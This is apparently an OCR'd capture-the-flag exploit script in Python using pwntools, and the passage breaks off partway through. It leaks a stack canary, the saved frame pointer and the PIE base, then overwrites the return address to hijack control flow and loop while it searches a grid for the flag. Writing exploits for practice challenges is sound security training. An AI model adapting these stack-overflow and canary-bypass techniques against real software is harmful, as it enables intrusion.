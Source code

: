 ```py

def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    def safe_move(dist: bytes):
        msg = dist + b"A" * 4 + p64(canary) + fake_rbp + ret + loop_addr
        if b"\x0a" in msg:
            raise Exception("invalid bytes. try again.")
        t.send(msg)

    def do_search():
        info(f"{x=:x} {y=:x}")
        assert x == 0x18 or x == 0x177
        assert y == 0x18 or y == 0x177

        x_dist = b"a" if x == 0x18 else b"d"
        y_dist = b"w" if y == 0x18 else b"s"
        for _ in range(0x18):
            for _ in range(0x18):
                safe_move(y_dist)
            y_dist = b"w" if y_dist == b"s" else b"s"
            safe_move(x_dist)
            buf = t.recv()
            if b"bctf" in buf:
                success("Flag Found!!")
                input("...")
        raise Exception("no flag found here")

    # leak canary & rbp
    sla(b")\n", b"A" * 6)
    buf = t.recvuntil(b"\n(")[:-2]
    buf = buf[buf.find(b"AAAAAA") + 5 :]
    canary, rbp = buf[:8], buf[8:]
    canary = s2u64(canary) & ~0xFF
    rbp = s2u64(rbp)
    success(f"{canary=:x}")
    success(f"{rbp=:x}")

    # get X,Y
    cur = t.recvuntil(b")")[:-1]
    x, y = list(map(int, cur.split(b", ")))
    success(f"{x=} {y=}")

    # leak pie base
    t.sendline(b"A" * 5 + b"B" * 8 + b"C" * 8)
    buf = t.recvuntil(b"\n(")[:-2]
    buf = buf[buf.find(b"C" * 8) + 8 :]
    pie_base = s2u64(buf) - 0x3431
    success(f"{pie_base=:x}")
    assert not pie_base & 0xFFF

    fake_rbp = p64(rbp - 0x280)
    loop_addr = p64(pie_base + 0x2F7A)
    ret = p64(pie_base + 0x12B8)
    t.send(b"A" * 5 + p64(canary + 2) + fake_rbp + ret + loop_addr)
    t.recvuntil(b"Invalid input")
    t.recvline()

    # Go corner
    x_dist = b"a" if x < 0x18F - x else b"d"
    x_times = min(x - 0x18, 0x177 - x)
```